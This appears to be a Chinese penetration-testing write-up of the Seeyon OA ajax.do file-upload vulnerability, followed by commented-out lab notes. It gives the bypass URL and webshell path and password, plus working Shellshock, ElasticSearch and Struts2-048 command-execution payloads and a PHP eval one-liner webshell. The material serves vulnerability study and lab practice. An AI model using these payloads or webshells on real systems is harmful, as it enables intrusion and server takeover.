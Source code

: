 # 冻冻“脑子”
# 致远OA-ajax.do任意文件上传漏洞

<br/>

渗透测试网站前必须签订渗透测试授权书，若私自渗透网站，后果自负

具体处罚见《中华人民共和国网络安全法》

本文经对某公司签过渗透测试授权书下进行。

<br/>

**致远OA-ajax.do任意文件上传漏洞复现:**


**漏洞详情：**

<br/>
致远OA ajax.do登录绕过 任意文件上传

<br/>

漏洞影响范围:

致远OA V8.0;

致远OA V7.1、V7.1SP1;

致远OA V7.0、V7.0SP1、V7.0SP2、V7.0SP3;

致远OA V6.0、V6.1SP1、V6.1SP2;

致远OA V5.x;

致远OA G6

<br/>

**漏洞复现：**


1.致远OA V8 前台

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/1.png">

<br/>

2.可能存在漏洞路径：

```
http://ip:port/seeyon/thirdpartyController.do.css/..;/ajax.do
```

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/2.png">
<br/>

3.使用poc脚本进行测试，验证漏洞是否存在：

poc脚本如下：

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/3.png">
<br/>

4.返回响应200，成功

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/4.png">
<br/>

5.出现以下异常，则可能存在漏洞。

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/5.png">
<br/>

6.冰蝎连接shell

```
路径： http://ip:port/seeyon/SeeyonUpdate1.jspx
```

```
密码： rebeyond
```

成功拿到管理员权限：

<img src="https://raw.githubusercontent.com/rmrfstop/rmrfstop.github.io/ZY_OA/6.png">

<br/>

7.修复建议：

目前，致远OA官方已发布补丁完成漏洞修复，CNVD平台建议用户立即通过官方网站安装最新补丁建议使用致远OA系统构建网站的信息系统运营者进行自查，发现存在漏洞后，及时升级或联系致远公司。
补丁链接：

```
http://service.seeyon.com/patchtools/tp.html#/patchList?type=%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81&id=1
```


<br><br><br><br><br><br>


<!--

# 安全服务问题

#### 扫描器工作原理
扫描器的工作原理是基于CVE漏洞库的半连接的扫描方式，首先探测目标系统的活动主机，对活动主机进行端口扫描，确定系统开放的端口，同时根据协议指纹技术识别出主机的操作系统类型。然后扫描器对开放的端口进行网络服务类型的识别，确定其提供的网络服务。漏洞扫描器根据目标系统的的操作系统平台和提供的网络服务，调用漏洞资料库中已知的各种漏洞进行逐一检测，通过对探测响应数据包的分析判断是否存在已知安全漏洞。目标可以是工作站、服务器、交换机、数据库应用等各种对象。扫描结果可以给用户提供周密可靠的安全性分析报告，是提高网络安全整体水平的重要依据。

#### 服务器ip禁ping怎么办
遇到服务器禁ping的情况，应先问知kh的服务器是否为开启的状态，若开启了禁ping策略，扫描器需配置高级选项中，勾掉“禁止存活性测试”，但会降低扫描的速率。

#### 配置核查，都包括哪些东西
配置核查包括对操作系统，数据库，中间件，网络设备，安全设备，其他等进行配置核查，配置核查属于机器安全配置的基线，例如：linux配置核查中包括身份鉴别、访问控制、入侵防范、安全审计等

#### 配置核查的方式
配置核查方式，有在线和离线，1：其中离线检查需下载对应的离线检查工具，按照其操作方法进行脚本执行，将执行结果导入扫描器即可生成报告。2：在线方式，直接勾选配置检查模块进行在线模式检查，需注意常见的windows的在线检查须通过rdp协议进行登录账号扫描，需在windows服务器上装插件，也可以通过smb协议进行登录扫描，但要提前确认smb账号密码。Linux、路由器、交换机、华为防火墙、配置核查直接使用root等管理员账户账号密码检查即可

#### 漏洞和配置核查的安全加固怎么做
漏洞加固最好的处理方式进行修补补丁、系统升级、临时修复通过更改配置、更改路径、删除文件等方式处理。配置核查加固一般根据扫描报告中配置检查项标准值进行配置更改，对于未检查出实际值的配置项需与客户确认问题是否存在或自行核查以确认问题

#### 扫描只提供了一个IP地址，可以怎么配置扫描器网络
1.配置扫描器主机地址，本机地址和主机地址同段，将客户提供ip地址配置为业务口进行扫描工作；属于桥接模式
2.在nat模式下，可以在扫描器后台配置dhcp，自动获取扫描ip，然后通过该ip登录后台，在网络配置中添加客户提供ip进行扫描
注：扫描前要ping一下网关确保网络正常

<br/> <br/> <br/> <br> <br>

# 靶场漏洞

#### bash 命令执行 （CVE-2014-6271）
目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。 影响版本：GNU Bash <= 4.3
利用过程
有两个页面http://ip:port/victim.cgi和http://ip:port/safe.cgi
访问 http://ip:port/victim.cgi，通过Burp截包修改 HTTP 请求头中User-Agent字段：
User-Agent: () { :;};echo `/bin/ls ls /tmp`" #列出tmp目录下所有文件
/bin/ls 事调用bin目录下ls事件  获取flag

ElasticSearch（CVE-2014-3120）命令执行漏洞复现
访问靶场环境，启动后可在浏览器页面成功访问
漏洞复现
用burp抓数据包
利用该漏洞之前，es至少需要存在一条数据，通过以下请求包创建数据：

1、利用POST方式提交数据
2、文件名字任意
3、浏览器的原生 form 表单，如果不设置 enctype 属性，那么其中Content-Type字段最终会以 application/x-www-form-urlencoded 方式提交数据。
而对于"application/x-www-form-urlencoded"，其参数组织形式是"键值对"。

三、利用命令执行漏洞，将一段java代码放进去
java代码：{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {}
        }      }    },
    "script_fields": {
        "command": {
            "script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }    }    }
        
其中：exec(\"ls /tmp\") 中是执行命令内容
struts2-048 远程代码执行
访问漏洞存在的路径 /integration/saveGangster.action
构建命令执行的pyload,执行命令为id
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /tmp').getInputStream())).(#q)}    

其中：exec('ls /tmp') 中是执行命令内容,可查看tmp下存在的flag

<br/> <br/> <br/>

## 线上靶场

通关线上靶场大多数S2和weblogic发序列化漏洞，可通过java反序列化漏洞利用工具进行测试，
瓶颈：之前不了解原因是因为，对文件存在的目录不了解，使用 pwd 命令 进行查看路径，发现都不是在根目录，通常靶场flag存在根目录下，tmp文件夹中，通关cd / 命令可以到达根目录下，之前使用命令执行时，用的都是相对路径，没有使用绝对路径进行执行，所以导致命令执行失败
问题：命令执行是把 "cd / | ls" 和 "ls | cd /"先后执行顺序弄反，导致错误的命令执行

<br/> <br/> <br/>

## 一句话木马原理

一句话木马 webshell 到web服务器目录 接着权获取系统权限

基本原理利用文件上传漏洞上传webshell

 <?php @eval($_POST['pass']);?> 

--- <?php ?> --- php文件要求格式

--- @ 表示后面即使执行错误，也不报错

--- eval() 函数表示把括号内的全当代码执行

--- $_POST['pass`']`表示从页面中获得pass这个参数值。

​	php 超全局变量：`$_GET`、`$_POST`就是其中之一

​    `		$_POST['pass']`; 的意思就是pass这个变量，用post的方法接收。

​					就是来收集 请求方法为post 的名字为pass表单里面的值

​			 ---  $_POST数组获取使用POST方式提交的表单数据

​                form标签的指定该属性："method="post"。

​					就是获取表单名为pass中的表单内容

  	 比如 eval( "echo 'a' ") == echo 'a' 

​		 <?php @eval($_POST['pass']);?>   

​			首先用post请求接受变量pass  若pass = echo 'a'  

​			代码就变成了 <?php eval("echo 'a';"); ?>

所以我们可以简单的想 中国菜刀发的这么一个包 包的代码是打开指定目录的句柄，然后进行循环扫描，并附带上权限、时间、大小、日期 这个包我这里用package来代替 所以在操作的时候其实就是 key = package 然后通过eval函数执行package的php代码 从而最终达成目的
中国菜刀 发一个包，包的代码是打开目录的

 -->
